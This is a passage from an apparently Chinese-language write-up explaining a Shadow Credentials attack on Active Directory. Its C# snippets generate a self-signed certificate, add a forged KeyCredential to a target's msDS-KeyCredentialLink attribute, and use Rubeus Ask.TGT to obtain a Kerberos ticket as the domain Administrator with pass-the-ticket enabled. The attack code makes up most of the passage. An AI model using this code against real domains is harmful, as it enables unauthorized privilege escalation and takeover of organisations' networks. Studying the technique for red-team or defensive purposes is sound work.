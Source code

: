 
在代码中，我们使用了 `CspParameters` 类来配置 RSA 密钥容器的参数，以及密钥存储的位置。然后，我们创建了一个 2048 位的 RSA 密钥对，并将其用于创建一个 `CertificateRequest` 证书请求对象。最后，我们通过调用 `CreateSelfSigned` 方法，生成并返回证书。

然后，通过 [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) 库提供的 `KeyCredential` 类，利用之前生成的自签名证书（公钥）、随机生产的 GUID、当前计算机对象的 `distinguishedName` 属性，以及当前日期时间，初始化一个 Key Credential 对象。。

```c#
X509Certificate2 cert = GenerateSelfSignedCert(targetComputer);

// ...

Guid guid = Guid.NewGuid();
KeyCredential keyCredential = new KeyCredential(cert, guid, targetObject.Properties["distinguishedName"][0].ToString(), DateTime.Now);
Console.WriteLine("[*] KeyCredential generated with DeviceID {0}", guid.ToString());

// ... 

try
{
    Console.WriteLine("[*] Updating the msDS-KeyCredentialLink attribute of the target object");
    targetObject.Properties["msDS-KeyCredentialLink"].Add(keyCredential.ToDNWithBinary());
    targetObject.CommitChanges();
    Console.WriteLine("[+] Updated the msDS-KeyCredentialLink attribute of the target object");
}
catch (Exception e)
{
    // ... 
}
```

接着，将 X509 数字证书转换为 PFX（PKCS#12）格式的字节数组，并使用给定的密码保护该 PFX。然后，将 PFX 格式的证书字节数组转换为 Base64 字符串，并传递到 Rubeus 提供的 `Ask.TGT()` 方法中，以请求 TGT 票据。

```c#
byte[] certBytes = cert.Export(X509ContentType.Pfx, password);
string certString = Convert.ToBase64String(certBytes);

// ...
// base64Certificate = certString

string targetUser = $"{domain}\\Administrator";
string targetSPN = "";
string altService = $"HOST/{Environment.MachineName}";
string outfile = "";
bool ptt = true;
bool self = true;
string keyString = "";

// ...

byte[] byteTgt = Ask.TGT(targetComputer, domain, base64Certificate, password, encType, "", ptt: true, domainController, luid, true, getCredentials: true);
```
